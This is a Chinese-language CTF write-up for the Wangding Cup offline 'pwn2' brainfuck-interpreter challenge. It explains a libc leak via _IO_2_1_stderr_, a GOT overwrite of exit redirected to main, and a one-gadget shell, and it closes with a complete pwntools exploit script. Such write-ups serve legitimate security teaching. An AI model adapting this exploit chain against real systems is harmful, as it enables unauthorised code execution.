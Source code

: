 ```yaml
---
title: 网鼎杯线下Pwn2
date: 2018-09-09 08:37:40
tags: [CTF, PWN]
categories: 网鼎杯
---
```

## 网鼎杯线下赛 pwn2 wp

​	师傅网鼎杯扔给我的，当时没来的及做，现在做了一下，这里贴出思路。  
	<!--more-->
	网鼎杯线下三题中这个算是最简单的了，感叹网鼎杯的赛题质量还是挺高的，听师傅说网鼎杯是借鉴的国外赛题，国外赛题的话一般是re/pwn结合的，一般并称为binary，所以看线下赛的两道堆题，不仅需要你pwn，还需要你把他逻辑逆出来。符号表被裁，函数也比较多，不再是寻常的3~4个函数的选单程序，看上去比较贴近实际。分析起来可以算是有点烦的了。其它两题有空再说，现在贴下pwn2的思路。  
pwn2的话是一个brainfuck程序，玩法是通过输入一些程序规定的特殊字符，去使用程序指定的一些功能。记得pwnable.kr上好像是有一道类似的题目。  
	这道题逻辑大概是这样的，初始指针是指向bss段，我们可以通过输入<、>、.、,来进行指针的移动、泄露、输入等，其实还有一些其他的功能，但是事实上对利用是没有什么太大帮助的，估计是想迷惑我们23333。  
	这道题思路是这样的，首先通过移动bss段的指针使其指向libc中的函数，因为这题肯定是要构造系统调用的，这里其实只有一种选择，就是将bss指针移动到位处bss段上的_IO_2_1_stderr_等函数，这样可以进行泄露libc地址，但是一开始我想的是直接将指针移动到got段进行进行泄露got表，但是由于程序里有一个操作是在数组下标寻址的时候做有符号位的扩展，导致一旦用户输入了超过0x7f个字符的话程序会将0x80解析为0xffffff80，而保存用户输入的地址之后0xffffff80地址处数据为0x00，这样的话循环会退出，程序执行exit(1)指令，这里满足条件的got好像只有exit一个，但是exit是未初始化的，即未进行plt寻址和地址绑定，所以exit无法泄露libc相关地址，而其他的got函数长度超过0x7f，会导致无法进行泄露后下一步的操作。  
泄露_IO_2_1_stderr_的地址后可以计算libc基址，之后可以得到oneGadget等的地址，这时候如果直接写exitgot为oneGadget的话程序会报错，因为程序已经一次getshell所需的输入字符数，这里程序故意不让你一次getshell，以至于如果你覆写exit为oneGadget的话只能将oneGadget从低地址开始的4字节写入，之后直接exit，而由于oneGadget的低四字节是无效地址，程序会报错。  
	所以这里绕了一下，不直接写exit为oneGadget，而是将exit覆写为main函数的开头，这样的话就能再进行一次输入了，由于ptr循环开始并没有初始化，所以现在ptr指向的是exit got表地址+4的位置，所以第二次输入将ptr往低地址移4字节后进行写入，现在就能写入oneGadget了。成功getShell。  
这道题比较坑的坑点就在于movsx的带符号位扩展，不了解的话可能会花很长时间死磕。

​	exp如下：

```
#coding:utf-8

import sys
from pwn import *
#from LibcSearcher import *
import time
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def debug(msg=''):
    gdb.attach(p,'')
    raw_input()

def exploit():
	p.recv()
	payload1 = "<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<.>.>.>.>.>.>.>.<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<>,>,>,>,"
	p.sendline(payload1)
	leak_addr = p.recv(8).ljust(8,'\x00')
	leak_addr = u64(leak_addr)
	base_addr = leak_addr - libc.symbols['_IO_2_1_stderr_']
	bin_sh = next(libc.search('/bin/sh'))
	system = libc.symbols['system']
	payload2 = p32(0x0000400847)
	p.send(payload2)
	payload3 = '<<<<>,>,>,>,>,>,>,'
	p.sendline(payload3)
	payload4 = p64(base_addr + 0x45216)
	p.sendline(payload4)
	p.interactive()

if __name__ == '__main__':
		#p = remote('172.16.5.'+str(i),5069)	
		p=process('./pwn2')
		exploit()

```

